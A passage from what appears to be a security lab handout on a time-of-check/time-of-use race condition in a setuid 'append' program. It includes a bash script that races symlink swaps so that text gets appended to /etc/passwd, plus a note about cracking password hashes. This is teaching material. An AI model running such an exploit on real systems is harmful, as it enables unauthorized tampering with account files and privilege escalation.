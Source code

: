 [guest]: https://help.ubuntu.com/community/PasswordlessGuestAccount



[^etc-passwd-perms]: `/etc/passwd` being world-readable doesn't
  mean everyone can simply *read* the passwords -- recall that
  we don't store actual passwords, but only hashes of them.\
  &nbsp; &nbsp; But it *does* mean that anyone who wanted could
  take a copy of the `/etc/passwd` file and try to "crack" the passwords
  (try many combinations, in hopes of finding the correct one) at their
  leisure,
  using a program like [John the Ripper][john].

[john]: https://www.openwall.com/john/


### 1.3. Launching the race condition attack

In order to successfully exploit the `append` program, we need to
make `/tmp/XYZ` point to the password file.
In order for this critical step to succeed, it has to
occur within the window between check and use (i.e., between the `access()` and the `fopen()`
calls in the vulnerable program). 
We assume we cannot modify the vulnerable program, so the only thing that we can
do is to run our attacking program in parallel to "race" against the target program, hoping to win the race
condition, i.e., changing the link within that critical window.
We can't achieve the perfect timing needed for this every time we try, but
given many attempts, we may be able to succeed.

Consider how we can increase the probability. For example, we can
run the vulnerable program for many times; we only need to achieve success once among all these trials.
Since you need to run the attacks and the vulnerable program for many times, you need to write a
program to automate the attack process. To avoid manually typing an input to the vulnerable program
`append`, you can use input redirection.

Try saving the following file as `launch.sh`, and give it executable permissions:

```bash
#!/usr/bin/env bash

# You can adjust LIMIT to change
# the number of times the loop runs.
LIMIT=1

# uncommenting the following line will print
# each command as it executes:
#set -x

orig_file=/tmp/XYZ
target_file=/etc/passwd

for ((i=0; i < LIMIT; i=i+1)); do
  rm -rf $orig_file
  touch $orig_file
  # replace AAA with the text you want appended to /etc/passwd
  (echo 'AAA' | nice -n 19 ./append) &
  unlink $orig_file
  ln -s $target_file $orig_file
  # replace BBB with some string that will be found
  # if your attack is successful.
  # if you insert a `sleep()` in the append
  # program, you'll also want to add a sleep command
  # (see `man 1 sleep`)
  # here, so your check waits til append has completed.
  if grep 'BBB' $target_file > /dev/null; then
    echo "attack succeeded"
    exit 0
  fi
done
```

[linux-symlinks]: https://lwn.net/Articles/390323/
[linux-sec]: https://www.usenix.org/legacy/event/sec02/wright.html
[linux-sec-guide]: https://www.starlab.io/blog/a-brief-tour-of-linux-security-modules 
[^gecos-fn]: Called the ["GECOS" field][gecos-field], for historical reasons --
[gecos-field]: https://en.wikipedia.org/wiki/Gecos_field
[gecos-history]: https://www.redhat.com/sysadmin/linux-gecos-demystified 